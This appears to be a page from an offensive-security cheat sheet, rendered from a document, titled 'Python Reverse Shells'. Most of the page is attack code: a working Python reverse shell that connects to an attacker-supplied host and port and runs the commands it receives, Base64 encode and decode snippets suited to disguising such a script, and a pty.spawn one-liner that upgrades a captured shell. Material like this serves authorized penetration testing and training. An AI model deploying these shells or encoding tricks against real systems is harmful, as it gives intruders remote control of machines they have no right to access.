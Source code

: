 <span id="anchor-86"></span>Python Reverse Shells

<span id="anchor-87"></span>Straight Python Shell

<table>
<tbody>
<tr class="odd">
<td>import socket,os<br />
so=socket.socket(socket.AF_INET,socket.SOCK_STREAM)<br />
so.connect(('<strong>&lt;LHOST&gt;</strong>',<strong>&lt;LPORT&gt;</strong>))<br />
Hc=False<br />
while not Hc:<br />
data=so.recv(1024)<br />
if len(data)==0:<br />
Hc=True<br />
stdin,stdout,stderr,=os.popen3(data)<br />
stdout_value=stdout.read()+stderr.read()<br />
so.send(stdout_value)</td>
</tr>
</tbody>
</table>

<span id="anchor-88"></span>Encode a Python Script (Base64)

<table>
<tbody>
<tr class="odd">
<td>import base64<br />
<br />
with open('<strong>&lt;script_file&gt;</strong>', 'rb') as f:<br />
  encoded = base64.b64encode(f.read())<br />
  print encoded</td>
</tr>
</tbody>
</table>

<span id="anchor-89"></span>Decode an Encoded Python Script (Base64)

<table>
<tbody>
<tr class="odd">
<td><p>import base64; </p>
<p>with open('decoded_script.py', 'w') as f:</p>
<p>    decoded = ‘<strong>&lt;base64_string&gt;</strong>'.decode('base64')</p>
<p>    f.write(decoded)</p>
<p>    f.close()</p></td>
</tr>
</tbody>
</table>

<span id="anchor-90"></span>Fix TTY Issues In Reverse Shells

<span id="anchor-91"></span>Python PTY

<table>
<tbody>
<tr class="odd">
<td><p>python -c 'import pty; pty.spawn("/bin/bash")'</p>
<p>Then fix the term type:</p>
<p>set TERM=linux</p>
<p>Or</p>
<p>export TERM=linux</p>
<p>clear</p></td>
</tr>
</tbody>
</table>
